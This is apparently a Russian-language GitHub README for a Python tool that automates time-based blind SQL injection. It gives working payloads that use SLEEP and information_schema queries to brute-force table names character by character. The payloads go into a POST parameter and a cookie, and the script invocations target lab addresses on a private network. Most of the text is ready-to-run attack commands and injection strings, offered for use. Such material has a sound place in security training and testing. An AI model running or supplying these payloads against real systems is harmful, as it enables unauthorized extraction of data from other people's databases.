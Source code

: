# Blind SQL injection

Скрипт, который при помощи `SLEEP` определяет значения в таблице

## Как использовать?

Попытаемся узнать имя таблицы (в моем примере всего одна таблица: `users`)

Пример стандартного запроса:
```SQL
SELECT TABLE_NAME FROM information_schema.tables WHERE table_schema= database() LIMIT 0,1
```

### Шаг 1. Получим длину нашей записи

Для этого используем команду:

```SQL
if ((LENGTH((SELECT TABLE_NAME FROM information_schema.tables WHERE table_schema= database() LIMIT 0,1)) = 5), SLEEP(2),0)-- -
```

Если длина нашей ячейки `= 5` тогда выполняется `SLEEP(2)`

Определить чему она должна быть равна можно перебором, подставляя логические выражения `>0`, `>5`, `>3`, `=3`, `=4`, `=5`.
Команда `SLEEP(2)` отработает только на выражениях: `>0`, `>3`, `=5`.

### Шаг 2. Получаем название

Была уязвимость в POST параметре `name`. Вставляем в него PAYLOAD. В payload указываем `{POSITION}` - место буквы.
`{SYMBOL}` - буква которая будет подбираться брутфорсом. Перебирал HEX значения.

```bash
python3 script.py -post -u "http://10.8.32.1:43064/" -t hex \
 -d "name=mikop' or if((substring((SELECT HEX(TABLE_NAME) FROM information_schema.tables WHERE table_schema= database() limit 0,1), {POSITION}, 1)={SYMBOL}), sleep(0.5), 0)#"
 ```

![Скриншот подбора HEX](img/photo_2023-06-15_13-49-24.jpg)

### Пример SQLi в cookie

```PSOT
python3 script.py -get -u "http://10.8.32.1:43065/" \
  -H "Cookie: cook=mikop' or if((ASCII(substring((SELECT TABLE_NAME FROM information_schema.tables WHERE table_schema= database() limit 0,1), {POSITION}, 1))={SYMBOL}), sleep(2), 0)#;" \
```

![Скриншот подбора HEX](img/photo_2023-06-15_14-31-51.jpg)


## Как работает?

Скрипт смотрит на задержку от сервера. Если на сервер отправить `SLEEP(10)`. То ответ придет не раньше, чем через 10 секунд.
Изменить это можно с помощью флага `--timeout 5.5`.

